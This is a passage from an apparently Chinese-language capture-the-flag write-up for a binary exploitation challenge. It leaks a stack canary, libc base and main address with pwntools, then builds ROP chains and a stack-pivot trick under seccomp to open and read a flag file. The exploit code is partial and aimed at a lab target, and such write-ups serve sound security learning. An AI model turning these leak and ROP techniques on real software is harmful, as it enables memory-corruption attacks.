     canary = u64(result[7 * 8:7 * 8 + 8])
    libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
    libc_base_addr = libc_start_main - 0x29d90 + 0x80
    main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
    code_segment_base = main_fn_addr - 0x331

    log.success(f'Canary = {hex(canary)}')
    log.success(f'libc start main base = {hex(libc_start_main)}')
    log.success(f'libc base addr = {hex(libc_base_addr)}')
    log.success(f'Main Function Address = {hex(main_fn_addr)}')
    log.success(f'Code Segment = {hex(code_segment_base)}')
    ```
3. 有了canary / libc base 和code segment base / main function address，就可以來搞事了，初步的想法是直接寫一個open / read / write的syscall(因為seccomp的關係導致我們的操作極其有限)，不過因為我們也只是多了0x31的空間可以寫ROP，代表一定沒辦法把所有的shellcode都寫上去，這時候就需要用到stack pivot的技術，開一個相對大的空間繼續我們的作業，但就像@ccccc說的
    > stack pivot只是把你的stack用到其他地方而已，並不會因為你換了stack的位置你就能overflow比較多

    所以比較正確的觀念是，我先利用多出來的0x31把可以用的空間開大，再寫gadget，會比較方便，如果是像lab那樣每一個步驟都切成一個stack pivot的話也不現實，因為一個操作所需要的空間一定大於0x31，隨便舉個例子，如果是open→`fd = open("/home/chal/flag.txt", 0);`，全部的payload如下:
    ```python
    payload = b'/home/chal/flag.txt'.ljust(0x38, b'\x00')
    payload += flat(
        canary,
        0,
        pop_rax_ret, 2,
        pop_rdi_ret, bss_addr_flag - 0x40,
        pop_rdx_rbx_ret, 0, 0,
        pop_rsi_ret, 0,
        syscall_ret
    )
    ```
    最少也需要0x98的空間，所以擴大可以寫的空間是必要的，但我還是稍微嘮叨一下，一開始我的想法是直接把n2的數值改掉，這樣就可以解決上述的問題，但實際操作會發現這也不現實，因為payload也會過長，如下
    ```python
    payload = b'a' * 0x38
    payload += flat(
        canary,
        rbp,
        pop_rdi_ret, n2_addr,
        pop_rdx_ret, 0x200,
        mov_qword_ptr_rdi_rdx_ret,
        main_fn_addr + 291,
    )
    ```
    這樣最少也需要0x78的空間，比起最大值的0x61還差蠻多的，所以昨天就想了超久怎麼解決這個問題
3. 解決空間大小的問題
    這個要回到動態實際執行的時候是怎麼呼叫的(如下圖)，這一題有趣的地方在這邊，理論上我們是回到main+291，讓他fetch n2的值給RAX，但如果我直接跳到main+298，並且利用rop把rax變大，是不是也有一樣的效果
    ![圖片](https://hackmd.io/_uploads/Syoe0OTHp.png)
    ```python
    extend_payload = flat(
        canary,
        bss_addr_flag,
        pop_rax_ret, 400,
        main_fn_addr + 298,
    )
    ```
    此時我們就不需要那麼多的gadget幫助完成該目標
